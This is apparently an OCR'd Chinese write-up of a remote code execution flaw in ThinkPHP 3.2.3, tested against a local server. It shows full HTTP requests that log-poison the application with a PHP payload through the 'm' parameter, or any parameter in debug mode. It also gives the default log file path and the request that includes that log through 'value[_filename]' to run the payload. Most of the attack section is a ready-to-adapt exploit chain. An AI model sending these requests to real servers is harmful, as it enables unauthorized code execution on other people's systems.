 #### 漏洞攻击：

测试环境：

> ThinkPHP3.2.3完整版 Phpstudy2016 PHP-5.6.27 Apache Windows10

debug模式开启或不开启有一点区别，但是都可以。

> 1.debug模式关闭：

写入攻击代码到日志中。错误请求系统报错：

![image-20210712115012345](/resource/ThinkPHP3.2.xRCE漏洞/image-20210712115012345.png)

请求数据包：

```
GET /index.php?m=--><?=phpinfo();?> HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=b6r46ojgc9tvdqpg9efrao7f66;
Upgrade-Insecure-Requests: 1
```

日志文件路径（这里是默认配置的log文件路径，ThinkPHP的日志路径和日期相关）：

> \Application\Runtime\Logs\Common\21_06_30.log

日志文件内容：

![image-20210712115017363](/resource/ThinkPHP3.2.xRCE漏洞/image-20210712115017363.png)

> 构造攻击请求：
> http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_06_30.log

![image-20210712115020758](/resource/ThinkPHP3.2.xRCE漏洞/image-20210712115020758.png)



> 2.debug模式开启：

```
上面的错误请求日志方式同样可用。另外debug模式开启，正确请求的日志也会被记录的到日志中，但日志路径不一样。
```

请求数据包：

```
GET /index.php?m=Home&c=Index&a=index&test=--><?=phpinfo();?> HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=b6r46ojgc9tvdqpg9efrao7f66;
Upgrade-Insecure-Requests: 1
```
